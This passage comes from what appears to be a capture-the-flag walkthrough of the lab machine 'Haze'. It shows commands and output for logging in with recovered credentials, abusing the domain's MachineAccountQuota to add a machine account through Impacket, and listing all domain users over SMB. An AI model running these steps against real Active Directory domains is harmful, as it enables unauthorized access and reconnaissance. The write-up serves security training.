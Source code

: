 ```

oxdf@hacky$ netexec ldap haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' -M maq
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) (signing:None) (channel binding:Never)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
MAQ         10.10.11.61     389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.11.61     389    DC01             MachineAccountQuota: 10

```

That means that each user can add up to 10 machines to the domain. I’ll do that:

```

oxdf@hacky$ addcomputer.py -computer-name '0xdf$' -computer-pass '0xdf0xdf!' -dc-host haze.htb -domain-netbios haze 'haze/paul.taylor:Ld@p_Auth_Sp1unk@2k24'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account 0xdf$ with password 0xdf0xdf!.

```

That account and authenticate:

```

oxdf@hacky$ netexec smb haze.htb -u '0xdf$' -p '0xdf0xdf!' 
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\0xdf$:0xdf0xdf! 

```

And list all the users:

```

oxdf@hacky$ netexec smb haze.htb -u '0xdf$' -p '0xdf0xdf!' --users
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\0xdf$:0xdf0xdf! 
SMB         10.10.11.61     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-            
SMB         10.10.11.61     445    DC01             Administrator                 2025-03-20 21:34:49 0       Built-in account for administering the computer/domain
SMB         10.10.11.61     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.61     445    DC01             krbtgt                        2025-03-05 07:09:15 0       Key Distribution Center Service Account
SMB         10.10.11.61     445    DC01             paul.taylor                   2025-06-26 05:35:27 0        
SMB         10.10.11.61     445    DC01             mark.adams                    2025-06-26 05:35:27 0        
SMB         10.10.11.61     445    DC01             edward.martin                 2025-06-26 05:35:27 0        
SMB         10.10.11.61     445    DC01             alexander.green               2025-06-26 05:35:27 0        
SMB         10.10.11.61     445    DC01             [*] Enumerated 7 local users: HAZE

```

